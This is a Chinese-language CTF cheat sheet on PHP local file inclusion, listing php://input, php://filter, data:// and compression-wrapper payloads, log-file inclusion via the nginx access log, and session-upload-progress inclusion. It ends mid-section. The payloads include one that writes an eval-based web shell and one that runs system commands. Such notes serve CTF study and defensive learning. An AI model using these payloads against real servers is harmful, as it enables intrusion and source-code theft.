     是一个可以访问原始数据的只读流

    `file_get_contents(php://input)`接收post数据//ctfshow 266

    `php://input <?PHP fputs(fopen('shell.php','w'),<?php eval($_REQUEST[c])?>)?>` (写入shell)

    `php://input <?php system('whoami');?>`

* `php://filter`

    `php://filter/read=convert.base64-encode/resource=xxx.php`(读文件源码)

    `php://filter/write=string.rot13/resource=2.php`(写入文件按)

    `php://filter/resource=flag.php`(读文件源码)

    `php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php`(读文件源码)

    `php://filter/read=convert.quoted-printable-encode/resource=flag.php`(读文件源码)

    `compress.zlib://flag.php`(读文件源码)

* `data://text`

    `data://text/plain,<?php phpinfo();?>`(相当于代码执行)

    `data://text/plain;base64,xxxxxx`(打印内容)

* `zlib://`压缩流

    `compress.zlib://a.txt`(读文件)
    `compress.bzip2://file.bz2`
## 日志包含
>[包含日志文件getshell](https://www.cnblogs.com/my1e3/p/5854897.html)
* 概述
当没有上传点，也没有`url_allow_include()`功能时，我们可以考虑包含`服务器的日志文件`，原理是，当访问网站时日志会记录我们的行为，如果访问连接中包含一句话吗木马，也会被记录到日志中。这时候我们如果知道服务器的日志位置，我们可以去包含这个文件从而`拿到shell`，关键步骤就是找日志存放的`物理路径`。

### 日志路径
* linux

    * nginx

        `/var/log/nginx/access.log`


## session包含(无后缀文件包含)
* `PHP_SESSION_UPLOAD_PROGRESS`

    >参见[利用session.upload_progress进行文件包含和反序列化渗透 ](https://www.freebuf.com/news/202819.html)

* 概述

    当向服务器上传一个文件的时候，服务器会把文件上传的时间以及进度保存在session当中，当上传文件结束之后就会立即清空session文件中的内容。

    如果`session.use_strict_mode`值默认为0，可以自定义设置`Session ID`，如果设置`PHPSESSID=TGAO`,那么对应的文件就会上传到`/tmp/sess_TGAO`,可以看出文件后面的字段是可以被控制的

* 基本思路
